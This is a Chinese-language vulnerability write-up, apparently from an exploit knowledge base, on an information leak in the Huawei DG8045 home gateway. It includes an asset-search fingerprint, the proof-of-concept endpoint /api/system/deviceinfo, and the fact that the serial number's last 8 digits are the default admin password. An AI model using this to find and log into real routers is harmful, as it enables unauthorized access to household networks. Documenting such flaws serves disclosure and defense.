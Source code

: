 

# Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

<a-checkbox checked>Huawei DG8045</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="DG8045-Home-Gateway-DG8045"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1648696791637-1a79e231-0011-4736-ba99-d8f60c3edb90.png)

验证POC

```php
/api/system/deviceinfo
```

![img](../../../.vuepress/public/img/1648697448559-e9f4657e-ef69-40d3-aa61-abc87a2a0f53.png)

SerialNumber 后8位即为初始密码